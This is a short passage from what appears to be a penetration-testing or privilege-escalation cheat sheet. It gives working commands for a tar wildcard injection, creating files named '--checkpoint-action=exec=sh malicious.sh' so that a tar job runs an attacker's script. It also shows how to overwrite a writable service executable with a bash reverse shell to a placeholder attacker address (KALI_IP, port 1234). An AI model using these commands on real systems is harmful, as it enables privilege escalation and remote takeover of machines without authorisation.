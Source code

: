 ```shell

# 3 Touch the files
touch '/tmp/--checkpoint=1'
touch '/tmp/--checkpoint-action=exec=sh malicious.sh'
```
## writeable service
***If you find writable binaries or scripts, you can write reverse shell***
```shell
echo 'bash -i >& /dev/tcp/KALI_IP/1234 0>&1' > /path/to/service_executable
chmod +x /path/to/service_executable
```

